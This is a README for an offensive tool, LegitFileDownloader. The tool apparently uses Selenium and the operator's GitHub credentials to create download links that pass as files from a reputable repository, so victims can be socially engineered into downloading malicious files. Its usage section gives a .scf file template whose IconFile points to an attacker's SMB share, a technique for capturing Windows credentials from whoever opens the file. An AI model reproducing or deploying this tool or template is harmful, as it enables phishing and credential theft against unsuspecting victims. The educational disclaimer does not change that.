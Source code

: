 # LegitFileDownloader
A simple attack that relies on social engineering to trick the victim into downloading a malicious file.

## Description
### Part 1
By utilising the python script, users will be able to generate a downloadable link that looks like a legitamte file from a reputable github repository. By using social engineering techniques, the user can trick the victim into downloading the file. The file will be downloaded to the victim's system.


## Pre-requisites
- Chrome browser
- Selenium
- ChromeDriver (Should be compatible with the Chrome browser version)

## Installation
- Install the Chrome browser
- Install the ChromeDriver
Go to the [ChromeDriver download page](https://googlechromelabs.github.io/chrome-for-testing/) and download the ChromeDriver that is compatible with the Chrome browser version installed on your system.
- Install the Selenium package
```bash
pip install selenium
```

## Usage
- Run the python script
```bash
python3 LegitFileDownloader.py
```

- Enter the your github username and password
- Choose the file that u want the target to download
- Example format for the .scf file
```bash
[Shell]
Command=2
IconFile=\\[ip-address_of_server]\share\anyfile.ico
[Taskbar]
Command=ToggleDesktop
```



## Disclaimer
This project is for educational purposes only. Do not use this project for illegal purposes.

## Credits
- Github Exploit: [John Hammond Youtube Video](https://youtu.be/0wduZ3nO848?si=9ngVXV7xLK9QR-n6)


